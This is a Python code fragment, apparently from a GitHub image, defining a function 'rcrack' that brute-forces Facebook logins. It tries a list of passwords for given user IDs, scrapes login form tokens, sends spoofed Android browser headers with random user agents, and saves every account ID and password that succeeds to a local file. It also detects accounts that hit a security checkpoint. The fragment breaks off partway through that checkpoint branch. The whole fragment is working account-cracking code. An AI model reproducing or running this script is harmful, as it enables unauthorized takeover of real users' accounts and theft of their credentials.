 

def rcrack(uid,pwx,tl):
    #print(user)
    global loop
    global cps
    global oks
    global proxy
    try:
        for ps in pwx:
            pro = random.choice(ugen)
            session = requests.Session()
            free_fb = session.get('https://free.facebook.com').text
            log_data = {
                "lsd":re.search('name="lsd" value="(.*?)"', str(free_fb)).group(1),
            "jazoest":re.search('name="jazoest" value="(.*?)"', str(free_fb)).group(1),
            "m_ts":re.search('name="m_ts" value="(.*?)"', str(free_fb)).group(1),
            "li":re.search('name="li" value="(.*?)"', str(free_fb)).group(1),
            "try_number":"0",
            "unrecognized_tries":"0",
            "email":uid,
            "pass":ps,
            "login":"Log In"}
            header_freefb = {'authority':'x.facebook.com',
			'method':'GET',
			'path':'/?tbua=1',
			'scheme':'https',
			'authority': 'm.facebook.com',
            'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7',
            'accept-language': 'en-US,en;q=0.9',
            'cache-control': 'max-age=0',
            'authority': 'm.com',
            'authority': 'm.facebook.com',
            'authority': 'm.facebook.com',
            'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7',
            'accept-language': 'en-US,en;q=0.9',
            'cache-control': 'max-age=0',
            'sec-ch-prefers-color-scheme': 'light',
            'sec-ch-ua': '"Not:A-Brand";v="99", "Chromium";v="112"',
            'sec-ch-ua-full-version-list': '"Not:A-Brand";v="99.0.0.0", "Chromium";v="112.0.5615.137"',
            'sec-ch-ua-mobile': '?1',
            'sec-ch-ua-platform': '"Android"',
            'sec-ch-ua-platform-version': '"10.0.0"',
            'sec-fetch-dest': 'document',
            'sec-fetch-mode': 'navigate',
            'sec-fetch-site': 'none',
            'sec-fetch-user': '?1',
            'upgrade-insecure-requests': '1',
            'user-agent':pro}
            lo = session.post('https://x.facebook.com/login/device-based/regular/login/?refsrc=deprecated&amp;lwv=100&amp;refid=8',data=log_data,headers=header_freefb).text
            log_cookies=session.cookies.get_dict().keys()
            #print(iid+'|'+pws+'|'+str(log_cookies))
            if 'c_user' in log_cookies:
                coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])
                cid = coki[151:166]
                print('\033[1;32m[😜]-OK] '+cid+'|'+ps+'\033[0;97m')
                open('SN.ESA HKR-OK.txt', 'a').write(cid+' | '+ps+ '\n')
                oks.append(cid)
                break
            elif 'checkpoint' in log_cookies:
                coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])